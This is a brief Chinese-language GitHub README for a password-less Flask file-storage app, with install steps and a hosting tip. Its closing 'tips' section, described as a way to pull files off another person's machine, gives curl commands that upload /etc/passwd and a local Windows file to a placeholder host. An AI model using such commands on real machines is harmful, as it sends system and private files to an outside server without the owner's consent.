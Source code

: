 # webstorage
#### 基于python3 开发的flask的简单文件存储
    用于远程下载、异地备份、私人网盘等

### 使用方法
    1. git clone https://github.com/mycve/webstorage.git
    2. cd webstorage
    3. pip3 install -r requirements.txt
    4. python3 app.py
    5. 访问 https://ip:8899 (默认端口8899)

#### 本着轻量级原则，未加密码等功能，私人用吧...

#### Tips：推荐部署到外企一家`python runtime`（:- ♥♥♥ because：forever free
#### [点击直达](https://www.pythonanywhere.com/)

### Demo(是我已经部署好的，地址我就不放了)
![image](https://raw.githubusercontent.com/mycve/webstorage/main/demo.gif)


### 小技巧（拖对方机器文件、快捷上传等）：
    curl https://xxxxx.com/api?action=upload -F "file=@/etc/passwd"
    curl https://xxxxx.com/api?action=upload -F "file=@c://1.txt"

### 执行完了，回到网页刷新网盘 （:- over